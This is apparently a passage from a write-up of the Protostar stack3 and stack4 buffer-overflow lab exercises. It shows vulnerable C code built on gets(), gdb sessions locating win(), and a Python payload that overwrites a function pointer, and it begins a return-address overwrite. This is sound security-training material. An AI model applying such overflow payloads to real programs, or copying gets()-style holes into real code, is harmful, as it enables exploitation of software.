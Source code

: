 ```
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
    printf("calling function pointer, jumping to 0x%08x\n", fp);
    fp();
  }
}
```

Now we have another function win(). The goal is to overwrite fp with the address of win() so that it executes it.

```
$ gdb stack3  
Reading symbols from stack3...done.  
(gdb) p win
$1 = {void (void)} 0x8048424 <win>
(gdb) quit
$ echo `python -c 'print("A"*64 + "\x24\x84\x04\x08")'` | ./stack3
calling function pointer, jumping to 0x08048424  
code flow successfully changed  
```

## Stack 4

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()  
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)  
{
  char buffer[64];

  gets(buffer);
}
```

The goal here is to overwrite the EIP pointer to jump to win() address. This is the standard buffer overflow one, so you have [buffer (64) | ] need to overwrite the EBP and return address which is 4 bytes + 4 bytes. But, on gdb we see that we actually need 12 bytes (still not sure why exactly)

```
root@kali:~/test/protostar# python -c 'print("A"*76)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ gdb stack4
Reading symbols from stack4...done.  
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
(gdb) r
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb7eadc03 in __libc_start_main (main=Cannot access memory at address 0x41414149
```